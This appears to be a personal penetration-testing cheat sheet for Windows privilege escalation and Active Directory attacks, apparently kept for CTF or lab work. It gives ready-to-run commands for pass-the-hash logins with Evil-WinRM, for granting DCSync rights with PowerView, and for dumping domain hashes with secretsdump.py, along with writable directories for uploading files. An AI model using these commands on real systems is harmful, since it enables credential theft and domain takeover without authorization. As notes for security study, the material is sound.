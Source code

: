 # Windows
Everything to check for when trying to become Administrator on windows


# Commands
- `powershell -c get-psdrive -psprovider filesystem` –-> To get drives
- `dir /R` --> To look for hidden data streams (if flag is hidden)


# Directories
- C:\Windows\System32\spool\drivers\color
    - To upload files to
- C:\Data\Users\app>
    - Old windows versions
- C:\program files\windowspowershell\modules\packagemanagement
    - Check for any code, policy or password in files


# Tools
## BloodHound / SharpHound
This is used to visualise AD environments and discover attack paths.

### Useful info
- [https://bloodhound.readthedocs.io/en/latest/index.html](https://bloodhound.readthedocs.io/en/latest/index.html)
- [https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)
- [https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)


## Evil-WinRM
Allows remote login to WinRM *(port 5985)* if credentials are known.

### Usage

```bash
# With password
evil-winrm -i <ip> -u <user> -p <password>

# With Pass The Hash (NTLM)
evil-winrm -i <ip> -u <user> -H <hash>
```

#### References
- [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
- [https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/](https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/)


## secretsdump.py
Helps to enumerate and dump AD hashes

#### References & link to the tool
- [https://github.com/fortra/impacket/blob/master/examples/secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
- [https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync)


# Misconfigurations
## DCSync
DCSync is a technique used to extract credentials from the Domain Controllers.    
In this we mimic a Domain Controller and leverage the (MS-DRSR) protocol and request for replication using GetNCChanges function.

### Add rights in PowerView
```powershell
Add-ObjectACL -PrincipalIdentity <user> -Rights DCSync
```

### Enumeration
**Note: Most of this will be done in PowerView**
```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

```bash
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile hashes
```

#### References
- [https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
- [https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync)
